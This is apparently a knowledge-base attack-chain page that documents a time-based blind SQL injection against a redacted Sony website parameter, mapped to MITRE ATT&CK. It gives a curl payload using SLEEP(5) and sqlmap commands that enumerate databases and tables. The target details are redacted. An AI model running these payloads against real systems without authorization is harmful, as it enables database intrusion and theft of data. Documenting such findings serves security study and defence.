

---
tags:
  - sqli
  - blind-sqli
  - time-based
  - database-extraction
  - sony
type: attack_chain
tools:
  - '[[tools/SQLMap]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Database
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Confirm-Time-Based-SQL-Injection-with-Sleep]]'
  - '[[procedures/Exploit-SQL-Injection-with-SQLMap-to-Dump-Database-Info]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:15:04.891Z'
description: >-
  A multi-step attack exploiting a time-based blind SQL injection vulnerability
  in a Sony website parameter to confirm the vulnerability and extract sensitive
  database metadata including table names, username, and hostname.
skill_level: intermediate
impact_level: high
id: aa39a20c-1d5f-40d6-8239-d474a21d9e61
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Time-Based Blind SQL Injection to Extract Database Schema from Sony Website

Multi-stage attack chain demonstrating exploitation of a time-based blind SQL injection in a Sony website's redacted parameter to confirm the vulnerability and extract database schema information.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/SQLMap]]
- curl (for manual injection testing)

### Target Environment

- Web application (Sony website)
- Required services/ports: HTTP/HTTPS on port 80/443, backend database (likely MySQL or similar)
- Network access requirements: Direct internet access to the target URL

### Initial Access Requirements

- No credentials required
- External network position (public-facing website)
- No prior access needed

## Detailed Attack Procedures

### Step 1: Confirm Time-Based SQL Injection
procedure: [[procedures/Confirm-Time-Based-SQL-Injection-with-Sleep]]

**Objective**: Verify the presence of a time-based blind SQL injection vulnerability in the redacted parameter by injecting a sleep function to induce a detectable delay in server response.

**Instructions**: Use a tool like curl to send a request with the SQL payload injected into the vulnerable parameter. For example, append ' AND SLEEP(5)-- to the parameter value to cause a 5-second delay if vulnerable.

```bash
curl "https://████?███=value' AND SLEEP(5)--"
```

Monitor the response time; a delay confirms the injection.

**Expected Output**: Server response delayed by approximately 5 seconds, indicating successful blind SQL injection without visible error messages.

**Success Indicators**:
- Response time increases significantly (e.g., 5+ seconds)
- No immediate error, but timing anomaly observed

### Step 2: Extract Database Information
procedure: [[procedures/Exploit-SQL-Injection-with-SQLMap-to-Dump-Database-Info]]

**Objective**: Automate the exploitation to dump sensitive database metadata, including table names, database username, and hostname.

**Instructions**: Run SQLMap against the vulnerable endpoint, specifying the time-based technique (T) and targeting the parameter for enumeration.

First, basic detection:

```bash
sqlmap -u "https://████?███=value" --technique=T --dbms=mysql
```

Then, dump schema:

```bash
sqlmap -u "https://████?███=value" --technique=T --tables --dbs
```

**Expected Output**: List of databases, tables, and metadata like username and hostname extracted to output files or console.

**Success Indicators**:
- SQLMap confirms vulnerability and begins enumeration
- Database schema details retrieved, such as table names and server info

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SQL injection via timing delays without direct output.
2. Extracted critical database metadata using automation.
3. Demonstrated potential for further data exfiltration in a production environment.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
